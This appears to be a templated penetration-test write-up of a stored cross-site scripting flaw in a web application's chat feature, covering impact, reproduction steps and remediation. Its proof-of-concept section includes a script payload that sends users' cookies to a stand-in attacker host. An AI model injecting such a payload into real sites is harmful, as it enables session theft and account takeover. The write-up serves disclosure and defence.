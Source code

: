 # Penetration Testing Writeup: XSS in Chat Feature

## Executive Summary

A Stored Cross-Site Scripting (XSS) vulnerability was identified in [Target
Application]’s chat feature during a penetration test. This flaw allows
attackers to inject scripts into chat messages, affecting all users in the chat.
This report provides details and remediation steps.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - Stored
- **Severity**: Critical
- **Affected Component**: Chat message input
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/chat/[room-id]`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 29, 2025

### Description

Chat messages are not sanitized before being stored and displayed, allowing
attackers to inject scripts that execute for all users in the chat room.

### Impact

- **Account Takeover**: Cookies can be stolen.
- **Data Exfiltration**: Chat data can be sent to attackers.
- **Phishing**: Fake forms can capture credentials.
- **Reputation Damage**: Defacement can harm trust.

### Proof of Concept

1. Send a chat message: `<script>alert('Stored XSS');</script>`.
2. Observe the alert in the chat room.
3. Malicious payload:
   `<script>fetch('https://attacker.com/steal?cookie='+document.cookie);</script>`.

### Steps to Reproduce

1. Join a chat room at `https://[target-application]/chat/[room-id]`.
2. Send `<script>alert('Stored XSS');</script>` as a message.
3. Confirm the alert appears for all users.

## Remediation Recommendations

1. **Input Sanitization**:
   - Use OWASP AntiSamy for chat inputs.
2. **Output Encoding**:
   - Encode messages before rendering.
3. **Content Security Policy**:
   - Apply CSP: `Content-Security-Policy: script-src 'self';`.
4. **Secure Development**:
   - Train developers on XSS prevention.
5. **Regular Testing**:
   - Conduct security audits.

## Conclusion

The Stored XSS vulnerability in [Target Application]’s chat feature is critical
and requires immediate action.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

![Chat XSS Alert](https://example.com/images/chat-xss-alert.png)
